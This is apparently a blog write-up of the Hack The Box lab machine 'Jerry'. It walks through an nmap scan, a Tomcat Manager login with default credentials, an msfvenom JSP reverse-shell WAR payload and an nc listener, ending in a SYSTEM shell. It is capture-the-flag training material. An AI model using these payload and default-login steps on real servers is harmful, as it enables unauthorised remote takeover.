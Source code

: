 ```yaml
---
title: Hack The Box - Jerry
date: 2023-01-16 08:10:00
categories: [hackthebox]
tags: [windows,tomcat,easy]
math: true
mermaid: true
toc: true
comments: true
---
```

![](/assets/Hackthebox/Jerry/0.png)

## RECON

### NMAP

Starting with `nmap`, it only shows one port `8080 (Apache Tomcat)` open.

```bash
$sudo nmap -sC -sV -p- --min-rate 10000 -Pn -oN jerry-all-tcp.nmap 10.10.10.95 
Nmap scan report for 10.10.10.95
Host is up (0.092s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/7.0.88
|_http-server-header: Apache-Coyote/1.1

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jan 16 21:13:37 2023 -- 1 IP address (1 host up) scanned in 31.99 seconds
```

### PORT - 8080
Default install of tomcat.

![](/assets/Hackthebox/Jerry/1.png)

### Login
Using the default credentials `tomcat:s3cret` we can login to the Tomcat Manager Application.

![](/assets/Hackthebox/Jerry/1.png)

### EXPLOITINTG TOMCAT

Generating war file using `msfvenom`
```bash
$sudo msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.13 LPORT=4444 -f war > shell.war
```

## SHELL AS ADMINISTRATOR

Once we upload the war file and visit `http://10.10.10.95/shell` we get shell as `administrator`.
```bash
$sudo nc -lvnp 4444 
listening on [any] 4444 ...
connect to [10.10.14.13] from (UNKNOWN) [10.10.10.95] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system
```
